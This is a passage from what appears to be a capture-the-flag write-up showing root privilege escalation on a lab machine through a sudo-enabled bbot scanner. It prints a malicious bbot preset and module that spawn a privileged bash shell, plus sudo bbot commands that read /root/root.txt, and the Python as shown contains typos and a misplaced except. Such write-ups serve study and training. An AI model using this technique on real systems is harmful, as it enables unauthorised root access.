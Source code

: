 </aside>

<br/><br/>
![image.png]({{ '/assets/images/e76d8ea2-ffc7-429a-835f-9f3b0344d1ab-export-d6a1d454-c23f-4600-bcb8-77c5a1ed5947/e76d8ea2-ffc7-429a-835f-9f3b0344d1ab-export-d6a1d454-c23f-4600-bcb8-77c5a1ed5947_image_14.png' | relative_url }})
<br/><br/>
Searching on internet there are malicious modules we can use it to spawn a shell as root
<br/><br/>
![image.png]({{ '/assets/images/e76d8ea2-ffc7-429a-835f-9f3b0344d1ab-export-d6a1d454-c23f-4600-bcb8-77c5a1ed5947/e76d8ea2-ffc7-429a-835f-9f3b0344d1ab-export-d6a1d454-c23f-4600-bcb8-77c5a1ed5947_image_15.png' | relative_url }})
<br/><br/>

```python
##preset.yml
description: HAHA PWNED
module_dirs:
	-.
modules:
	-systeminfo_enum
```

```python
#systeminfo_enum.py
from bbot.modules.base import BaseModule
import pty
import os

class systeninfo_enum(BaseModule):
	watched_events = []
	produced_events = []
	meta = {"description":"You will be pwned"}
	
	#setup called when the module is initialized
	async def setup(self):
		sef.hugesuccess("Set-up called - pwned!!@@!")
		try:
			pty.spawn(["/bin/bash", "-p"])
			except Exception as e:
			self.error(f"Somethin wrong {e}")
		return True
		
```

<br/><br/>
All bbot even modules running as root
<br/><br/>
![image.png]({{ '/assets/images/e76d8ea2-ffc7-429a-835f-9f3b0344d1ab-export-d6a1d454-c23f-4600-bcb8-77c5a1ed5947/e76d8ea2-ffc7-429a-835f-9f3b0344d1ab-export-d6a1d454-c23f-4600-bcb8-77c5a1ed5947_image_16.png' | relative_url }})
<br/><br/>
If we only want the flag we can avoid this module method and use the next flags
<br/><br/>

```c
sudo /usr/local/bin/bbot -t /root/root.txt -d
sudo /usr/local/bin/bbot --custom-yara-rules /root/root.txt -debug
```

<br/><br/>
Machine pwned!@!@!!

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
